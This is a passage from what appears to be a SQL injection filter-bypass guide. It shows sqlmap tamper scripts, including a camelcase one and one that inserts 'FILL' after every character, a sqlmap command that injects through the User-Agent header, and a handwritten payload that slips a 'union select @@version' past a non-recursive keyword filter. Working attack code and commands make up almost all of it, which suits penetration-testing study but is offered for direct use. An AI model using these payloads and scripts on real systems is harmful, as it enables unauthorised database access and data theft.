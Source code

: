 ```python
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal

```

Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql --user-agent='*' --tamper=tamper/camelcase.py --suffix=';#' --random-agent --banner
```

&nbsp;

**CASE :  The filter is case-insensitive and cuts out all the reserved words, but it is not recursive**

A bypass can be:

```sql
User-Agent: 'uFILLnFILLiFILLoFILLnFILL FILLsFILLeFILLlFILLeFILLcFILLt FILL@@FILLvFILLeFILLrFILLsFILLiFILLoFILLnFILL; FILL-- FILL-FILL
```
For a sqlmap automation it is necessary to write a simple tampering script:

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
   pass

def tamper(payload, **kwargs):
   """
   Insert FILL after every character

   >>> tamper('INSERT')
   'IfillNfillSfillEfillRfillTfill
   """

   retVal = str()

   FILL='FILL'

   if payload:
       for i in range(len(payload)):
           retVal += payload[i]+FILL
   # Uncomment to debug
   # print "pretamper:", payload
   return retVal
```

